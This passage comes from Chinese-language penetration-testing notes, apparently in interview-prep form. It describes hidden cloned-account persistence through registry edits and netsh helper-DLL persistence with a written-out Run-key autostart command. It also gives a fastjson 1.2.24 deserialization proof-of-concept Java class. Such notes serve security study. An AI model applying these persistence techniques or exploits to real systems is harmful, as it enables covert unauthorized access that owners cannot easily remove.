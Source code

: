 将2.reg中的F值替换为3.reg中的F值，即将test$用户的F值替换为WIN10用户的F值.

删除test\$用户，之后注册表就 无法打开了，导入1,2注册表：

![image-20220308194707146](README/image-20220308194707146.png)

这时登陆界面已经没有账户了，3389可以直接登陆，以test$用户登陆，登陆之后的身份是原来WIN10用户，桌面也是原用户的，达到克隆效果。这个时候再用`net user test$ /del`是删除不掉这个用户的，只能通过注册表来删除。

### 0xC.Netsh

权限要求：未降权的管理员权限。
netsh也是Windows自带的命令，是用来配置网络的命令行工具。该工具可以通过导入helperdll的方式实现功能，且DLL导入后会写进注册表，永久有效.

关于`helper dll`的编写可以参考这个项目：[NetshHelperBeacon](https://github.com/outflanknl/NetshHelperBeacon)

注册表位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NetSh`

netsh并不会开启自启动，因此还要再写一条自启动项：
`reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "cmd /c C:\Windows\System32\netsh"`



## Q：samesite防御CSRF的原理



## Q：fastjson相关漏洞

反序列化，远程代码执行

https://www.freebuf.com/articles/web/283585.html

探测：

post发json数据，去掉后面}，返回fastjson相关内容

### fastjson 1.2.24反序列化导致任意命令执行

exp:

```java
import java.lang.Process;
import java.lang.Runtime;
public class zcc {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = { "touch", "/tmp/zcctest" };
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}

```
